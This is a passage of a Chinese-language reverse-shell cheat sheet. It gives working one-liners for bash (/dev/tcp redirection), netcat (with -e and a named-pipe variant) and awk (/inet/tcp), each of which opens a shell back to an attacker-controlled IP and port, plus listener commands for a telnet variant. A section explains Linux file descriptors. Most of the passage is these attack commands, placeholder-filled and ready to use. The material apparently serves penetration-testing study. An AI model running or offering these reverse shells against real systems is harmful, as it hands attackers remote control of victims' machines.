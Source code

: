   ```bash
  bash -i #代表在本地打开一个bash。
  
  0>&1 2>&1  #把0复制到1，把2复制到1
  
  /dev/tcp/ #Linux中的一个特殊设备,打开这个文件就相当于发出了一个socket调用，建立一个socket连接。
  
  bash -i >& /dev/tcp/ip/port 0>&1  #将stdout/stderr（1,2)重定向到与ip:port的tcp套接字中
  ```

- 
    linux文件描述符：linux shell下有三种标准的文件描述符，分别如下:

    ```bash
    0 - stdin 代表标准输入,使用<或<<
    1 - stdout 代表标准输出,使用>或>>
    2 - stderr 代表标准错误输出,使用2>或2>>
    
    >&含义：
    当>&后面接文件时，表示将标准输出和标准错误输出重定向至文件。
    当>&后面接文件描述符时，表示将前面的文件描述符重定向至后面的文件描述符
    ```

**nc反弹**

- **前提**：目标主机装了nc

- 靶机：

    ```bash
    nc -e /bin/bash [攻击机ip] [port]
    #-e prog 程序重定向，一旦连接，就执行。-e后面跟的参数代表的是在创建连接后执行的程序，这里代表在连接到远程后可以在远程执行一个本地shell(/bin/bash)，也就是反弹一个shell给远程.
    
    
    #不使用-e
    mknod /tmp/backpipe p /bin/sh 0/tmp/backpipe | nc attackerip listenport 1>/tmp/backpipe			
    ```


**awk反弹**

- AWK 是一种处理文本文件的语言,是一个强大的文本分析工具。

    ```
    awk 'BEGIN{s="/inet/tcp/0/[攻击者ip]/[port]";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'s
    ```

    

**telnet反弹**

- 要在攻击主机上分别监听两个端口，执行反弹shell命令后，在其中一个端口终端输入命令，另一个端口查看命令执行后的结果。


- 
    攻击机：


```bash
nc -nvlp [port1]    #监听输入命令端口
nc -nvlp [port2]    #监听输出命令端口
```
